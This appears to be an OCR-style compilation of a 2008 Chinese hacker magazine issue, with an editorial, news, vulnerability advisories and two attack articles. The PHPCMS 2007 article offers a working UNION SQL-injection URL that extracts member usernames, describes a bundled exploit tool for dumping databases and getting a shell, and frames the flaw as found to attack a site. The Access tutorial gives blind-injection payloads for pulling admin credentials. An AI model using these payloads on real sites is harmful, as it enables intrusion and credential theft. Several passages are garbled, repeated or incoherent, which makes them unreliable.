# 非安全黑客手册合订本2008年①②季第二部分

---

# 《黑客手册》2008.04

## sniperhg 写在前面

今天开场，我想告诉大家两个消息。一个是好消息，一个是坏消息。请问各位看官，是先听好消息呢，还是先听坏消息……OK，那我就先给各位宣布一下好消息。

首先，带给大家一个好消息：我很荣幸能为《黑客手册》“出道”3周年写刊首语。我感谢爸爸妈妈、爷爷奶奶、叔叔婶婶，我还要感谢 CCTV、MTV，也感谢所有 TV……其次，带给大家一个遗憾的坏消息：很抱歉，因为物价上涨，黑手、专门系统书报可能不再版。因大家疯狂下载流行，希望大家尊重知识产权，特向各位爱读书的同学道歉……

《黑客编程实例讲解2》已经全国隆重上市。《本土化的第一本社会工程学的好书》——《黑客社会工程学攻击》即将上市，它将全面提升你的智慧，于知行合一中了解别人，更了解你自己。《黑客术语图文辞典》即将于4月上市，此作依然制作两年之久，将是黑手限量发行的典藏作品；如果以上的好消息可以让你振奋起来，还是回过头来谈谈写刊首语的事吧！

我问主编这次开场写什么内容，他说：“讲讲黑客文化”，或是“有没有想对黑客说的话”。我一听就懵了……黑客文化，我就一伪黑客，也许你熟悉各种黑客术语，说自己是 Script Kiddies，恐怕真的高手们都要笑话了。自诩黑客？我还没到那个境界，也不算黑客吧，但我对它很有兴趣。事实上我能做的不多。

黑客，它可以是一个小小的个人爱好，也可以当作你自己的事业。这就得看自己的决定了。打定了主意，做好一条道走到顶。QQ 上的朋友看到了，已经工作了，也想要开心地学某些技术性的东西，我也希望有能力给他们一些帮助。不过，虽然黑客之所以不一样，但对小学生来说，简单来说是“黑”的一种，啥都要学。我也有不少朋友、同学问我怎么学黑，杂志写了都看不懂，也常来爱问。其实大家也会有很大的收获，比如脚本、以及安全研究的基本本领。比如说，你现在想练习 C 语言，能做的是积累和分析，慢慢来，确实有助于你对学习的兴趣和思考。

我也是学脚本的，技术也就一般。看得懂 ASP、PHP，但要我去写什么东西嘛，恐怕就没那么令人开心了；我很清楚做技术和做黑客是两回事；有了这么多日常开发与运维，经常会有一个过程：不断学习，一点一滴积累，凡事都要有耐心。

再者再强调一下，我觉得最重要的是看懂两种“文字”，以及一个我称作“师傅”的关系。方向你也不懂的话，可见真正缺了个方向。做一些小项目，再研究漏洞，再多和朋友交流，才是成长的核心。

关于怎么学黑，我所要讲的就这一件：多看看，多多练。QQ 上也有不少菜鸟朋友问我怎么学黑，杂志写了都看不懂，不知道从哪下手，其实黑客安全方面有很多内容，比如脚本、包加解密、安全系统的基础、与计算机相关的一切。

关于学校的技术，技术也就一般。若看得懂 ASP、PHP，但要我去写什么东西，恐怕就没有别人专业了；我们的经验是：多看！看多了自然也就会了，当然也有一个过程，并不是人用一分钟就能了解一切的东西，想当然不如动手实践来得实际。

关于手册，我还是觉得吧，单学得到的东西也许什么都不够。万一碰上个搞钱的“师傅”，那就得不停地往下学了，可能真正适合你了便能了解个门道。他也没时间来管你，你们研究的问题不在一个层次，他也没多少耐心老回答你提出的、在他看来很幼稚的问题；一旦信奉：百度是最好的老师；答案是最好的外挂。

关于怎么做一个好黑客，呃，我在黑客越来越趋向商业化、挂马、流量、盗系统等的历史背景下，越来越不想学它们。我们学的是技术，拿技术做坏事就不对了。

最后，祝大家能从书中学到不少东西。虽然题目说得有点偏门了，当然已经是4月了，但请大家一定要相信我！我上一次还发现了一个东西，实在让大家觉得真的很……啊啊……

## 独家新闻

少数信息令人闻风色变，曾经的经验告诉我们，这一天世界上会发生许多有趣的事情。不知道有没有谁遇到什么？从实践中走来，我们在这里完成这种专门的工作，发布的大概是一些比较需要注意的资料……



## 新闻短评快

### 浙江舟山黑客门：黑客手册受浙江有线电视新闻网（CNN）采访黑客天下现场

2月19日，黑客手册编辑小迷接到黑客天下（www.hack4.com）站长最新的邀请，称美国电视台 CNN 将对黑客天下作专题采访，主题是中国黑客论坛，而拍摄地定在浙江舟山。黑手作为国内一家较为活跃的综合性媒体，针对该话题自身较为关注，遂欣然前往浙江舟山。

中间几个片段之间穿插的则是跟主题完完全全无关的镜头，竟然还插进去了一段外交部发言人的视频剪辑，与 CNN 最初联系时所讲的“黑客故事”这个原生态主题相差十里，可笑的是还和政治扯上了瓜葛。小道消息 CNN 上网上线、抓眼球的功力绝对真是可见一斑啊！

（受害者需考虑反侦察：以后在国内翻墙要找有偿保护，最好每一个发帖机会都包含语音操作，以免遭受监听或其他形式的盯梢，所谓防人之心不可无也！）

之后，小道消息称此事眼看着是通了电讯，鉴于 CNN 这边歪曲事实的报道方式，一定会通过法律的手段给自己讨一个清白。小道消息也将对此事作进一步跟踪报道。

小道评：作为新闻媒体工作人员，对这种新闻来讲，后期控制的“PS”类合成方式已经见多了，对老访客点击量是没有意义的，截图当然也说明不了什么；当然，作为黑客，个人建议还是保持原样，把握一个平稳的心态，做好自己手里的事……



## Adobe Acrobat Reader acroread 安全漏洞

受影响系统：

- Adobe Acrobat Reader 8.1.2

说明：

- BUGTRAQ ID：28091
- CVE(CAN) ID：CVE-2008-0883

Acrobat Reader 是一款流行的 PDF 文件阅读器，该软件的 acroread 脚本在处理 InstallCertificate 选项时没有安全地处理临时文件，这允许本地攻击者通过符号链接攻击结合竞争条件来覆盖或删除任意文件。

目前 Adobe 已经发布了升级补丁来修复这个安全问题，请到厂商的主页下载：
http://support.novell.com/linux/pdb/sources.html

## 金山毒霸在线升级模块 ActiveX 控件溢出漏洞

受影响系统：

- Kingsoft Corp UpdateX 2.1 2007.12.29.29

说明：

- BUGTRAQ ID：28172

金山毒霸是中国广泛使用的反病毒程序之一，其产品所安装的在线升级模块实际上存在缓冲区溢出漏洞，远程攻击者可能利用此漏洞控制用户系统。

在线升级模块（默认路径 C:\WINDOWS\system32\KingSoft\KOS\UpdateOcx2.dll）中的 SetUninstallName() 函数没有正确地检查某些用户参数输入，如果用户发送精心构造的恶意网页并向该路径传递了超长参数的话，就可能造成堆溢出，导致执行任意指令。目前厂商还没有提供补丁或者升级程序，我们建议使用此软件的用户随时关注厂商的主页以及最新版本：http://www.kingsoft.com/

RealPlayer 爆任意执行代码缺陷，警告用户禁止用 IE。

安全专家警告称，在发布补丁软件修正可以导致执行任意代码的缺陷前，RealPlayer 用户应当停止使用 IE。因为在释放和重写一些字符串时，一个所谓的纠错进程函数使恶意代码可修改播放内容。该缺陷可能还没有被公布。安全专家建议在没有发布补丁软件前，用户可使用别的兼容浏览器访问 RealPlayer，例如 Mozilla Firefox。



## PHPCMS2007 最新注入漏洞

从本文你可以学到：

- PHPCMS 最新注入漏洞的利用

先说点废话，看看什么是 PHPCMS：“PHPCMS（PHP Content Manage System）是一款由文章、下载、图片、分类信息、影视、商店、采集、财务等 20 多个功能模块组成的强大、易用、可扩展的网站管理软件。采用模块化开发，可自由安装和卸载，开发者提供程序代码和模块开发文档，功能扩展更方便。模块扩展多了，漏洞存在的几率也就大了，越来越新的 SP6 中的一个新模块的数据库注入说明了一切，同样问题也出现在 SP5 版中。”

看漏洞发现者——小螳螂给出的漏洞信息：

phpcms injection 0day  
影响版本：2007 SP5、SP6  
漏洞文件：/formguide/include/tag.func.php  
Author：backerhack 小螳螂  
信息来源：零客网安 www.0kee.com  
相关代码：

```php
$formid = (isset($formid)||$formid=="") ? 0 : 0;
$query = "SELECT * FROM `TABLE_FORMGUIDE` WHERE formid=$formid limit 1";
$j = $db->get_one($query);
if (!$j) {
    echo SLANG('not_exist_form');
    return;
}
```

变量 $formid 未做输入过滤查询。

测试：
`formguide/index.php?formid=1/*...*/union/**/select/**/1,username,3,4,5,6,7/**/from/**/phpcms_member/*...*/where/**/userid=1/*...*/`







### 二、EXP 的使用

我们看到 $formid 没有过滤就进行了 SQL 查询，导致了 injection 的发生。漏洞也不多分析了，利用这个漏洞是很容易拿 shell 的，拿到了管理员账号和密码，进了后台就不会受到防护，可以直接上传任意文件。利用这个漏洞我写了一个工具，很傻瓜化，界面如图 1，一目了然。它首先连接上 PHPCMS，安装好就开始测试。填入网站，点击测试按钮，返回信息，数据库信息就都出来了，如图 2。





### 三、后话

单挑找这个洞子是因为 backerhack 要搞个站，新出的 SP6 多了个比较新的模块，为了下载就找了一下，第三天告诉了我。我用了一个下午时间写了 EXP，程序是 VB 写的。当然，貌似在 *NIX 上还是检验不了，遇到 *NIX 站只好写工具。最后感谢 BOSS 的共享精神，也希望大家多多支持我们“客客网”。鉴于 PHPCMS 的使用者，看来网上又要是一场腥风血雨了。

（本文涉及到的利用工具 phpcms2007 注射 ODAY_EXP 已收录在光盘）

编辑点评：

自己真有心思的东西确实没什么可说的，有一点是说我的文中不够简洁，好比这次注入写得有些随意。关于这个 PHPCMS 的 ODAY，大家可以一块大把地来交流。


## 手把手教你拿 shell 之手工注入 ACCESS 篇

图：ianmutl [O.S.T]

从本文你可以学到：

- 对 ACCESS 数据库如何进行手工注入

### 开场声明

首先要跟大家道个歉，解释一下，虽然题目为“手把手教你拿 shell”，但是文中却没涉及到拿 shell 的过程，这是为了满足广大初学朋友所打造的系列之作，所以才叫“手把手教你拿 shell”，请大家原谅。

### 何为 SQL injection

SQL injection 翻译成中文就是：SQL 注射。那么什么又是 SQL？SQL 全称是 Structured Query Language——结构化查询语言。我们知道，数据库是存储管理数据的地方，当我们需要列出这些数据的时候，就要从数据库里取出这些内容，就必须用到数据库查询语言。SQL 是数据库存储查询的语言。如果你能够把管理员密码交出来；我们已经不需要 SQL 语句的限制，那么利用你的 SQL 语句可能就能够实现更多的功能。

注入又是怎么产生的？当页面取得我们提交的数据，带入 SQL 语句进行运算时，这本没有什么问题，但是如果我们提交的字符串与要进行的查询条件不符，那么就可能形成一条完整的、我们自己构造的 SQL 语句。这样，页面不仅会对我们提交的条件进行查询，也会对我们构造的 SQL 语句进行判断，正确的话就会正常显示，反之页面就会出错。注入也就是这样产生的，利用 SQL 的正确与否来获得我们想要的数据。以上都是我一家之言，有什么错误请大家指出。

## 注入之旅

为了清晰明了地演示手工注入的全过程，我写了一个极其简单的 ASP 程序。也许在你们看来这都是些老掉牙的东西，你们很多人都懂，但是我学这个的时候很多朋友连最最基本的东西都不知道，我就觉得有必要写出这篇文章。

注入之前，我们要知道这个系统是否存在注入漏洞，最简单也是大家最常用的判断语句就是经典的 and 1=1 和 and 1=2 了，其实不一定非要提交 1=1 和 1=2。如图 1、图 2 是提交了 `'hg'='hg'` 和 `'hg'='lala'` 后显示的页面。页面显示很清楚了，拿 `'hg'='hg'` 举例吧，带入查询的 SQL 语句：`select * from news where id=1 and 'hg'='hg'`。and 是用来连接两条语句的，第一句 `select * from news where id=1` 会带入数据库查询，查到的数据就是新闻 ID 对应的内容；第二句 `'hg'='hg'` 是两个常量的比较，显然 `'hg'='hg'` 是两个相等的常量，语句当然不会出错，这就是经典的 and 语法了。页面存在注入，接下来我们就要开始真正的手工注入了。

1. 首先要确认我们需要管理的表在数据库里有什么地方能作为参数入口，这个概念我们有时也会叫做注入点。注入点会告诉我们在不对的情况下，系统是不允许访问的。但是手工注入时我们不可能先拿出系统，所以如果不能确定数据，就要看看这个页面上有哪些参数。最常见的就是在新闻内容里输入：`'1' and exists(select * from admin)`，用来判断一个系统中 admin 表是否存在的话，就返回正常页面。这里测试的是将 news 的栏目里一个参数带入到页面中，输入 `'1' and exists(select * from admin)` 是否存在。最基本的是 admin 或者是 news，这样我们就能知道这个数据库表中，这个页面的数据是从哪里来，页面里是否有这个表。如果这里写的是 `select * from admin` 是存在的，那么就是从 admin 表中查询数据；如果页面返回了新闻标题或内容，说明其存在注入。继续循环，继续测试。

2. 猜到了表名，接下来就要来猜测管理员表存在的字段了，根据表名一一推，提交：`'1 and exists(select admin from admin)'`，如果字段名猜测正确，那么则返回正常页面，如图 4。这里我就觉得管理员账号的字段是 admin，密码字段是 pwd。

3. 猜到了管理员表里的字段，剩下的就是先猜它们的值了。

先看管理员名字的长度，提交：`'1 and (select top 1 len(admin) from admin)>5'`，如图 5，这里显示的是“没有新闻”，则管理员用户名的长度应该小于 5。接下来继续深入，提交：`'1 and (select top 1 len(admin) from admin)>4'`，返回正确，那就说明管理员名字长度大于 4 但是小于 5。接下来猜测其内容，提交：`'1 and (select top 1 asc(mid(admin,1,1)) from admin)>50'`。SQL 语句里用了一个字符函数 `mid(admin,1,1)`，表示获取一个字符串的第一个字符。取得这个字符的 ASCII 码，取 admin 字段里第一位的值；如果改成 `mid(admin,2,1)`，就改为从第二位开始取一位。这句话的意思就是取 admin 的第一位的 ASCII 码，判断它是否比 50 大。由于我们已经知道了一点点，感觉获取管理员密码 admin、pwd 的内容也快浮出水面了。

4. 现在的朋友们都知道，ACCESS 的注入相比较繁琐，于是都改用工具，像 NBSI 和 HDSI 都有很好的注入功能。这些工具比我们手工操作要方便得多。但是，这些注入工具都有一个较常用的功能，就是 Union 注入。我们在注入不利方便时且要大规模统计资料时，会用到它。先说说 Union 查询的用法，这些语句是通过多个查询语句合并为一个。只要有一条查询命令返回的字段数一致，便能查出我需要的内容。换句话说，union 查询语句要和前面的语句字段数一致，避免出现错误。这里是说，我这个 news 有 2 个字段了。

| 字段 | 值 |
|---|---|
| 新闻ID | 2 |
| 新闻标题 | 1 |



